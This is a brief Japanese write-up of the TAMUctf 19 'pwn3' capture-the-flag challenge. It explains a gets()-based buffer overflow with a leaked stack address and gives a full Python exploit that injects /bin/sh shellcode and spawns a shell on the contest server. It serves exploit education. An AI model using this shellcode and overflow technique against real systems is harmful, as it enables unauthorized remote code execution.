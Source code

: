 # [pwn 387pts] pwn3 - TAMUctf 19
32ビットでPIE有効、Full RELROですが、DEPが無効です。
```
$ checksec pwn3
[*] 'pwn3'
    Arch:       32 bits (little endian)
    NX:         NX disabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Full RELRO
    PIE:        PIE enabled
```
だいたいNX disabledの時はシェルコードを動かす問題だと思います。

IDAで解析すると、echo関数でgetsを使って入力するのでバッファオーバーフローが存在します。
また、入力先のローカルバッファのアドレスを最初に出力してくれます。

したがって、リターンアドレスをバッファの先頭に書き換え、バッファの先頭にシェルコードを入れておけば任意の処理が実行できます。


```python
from ptrlib import *

sock = Socket("pwn.tamuctf.com", 4323)
#sock = Socket("localhost", 4323)
_ = input()
sock.recvuntil("journey")
addr = sock.recvuntil("!").rstrip(b"!")
addr_shellcode = int(addr, 16)
dump("&shellcode = " + hex(addr_shellcode))

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += b"\xcd\x80\x31\xc0\x40\xcd\x80"

payload = shellcode
payload += b"\x90" * (0x12e - len(shellcode))
payload += p32(addr_shellcode)
sock.sendline(payload)

sock.interactive()
```

# 感想
シンプルなバッファオーバーフロー + シェルコードの問題です。
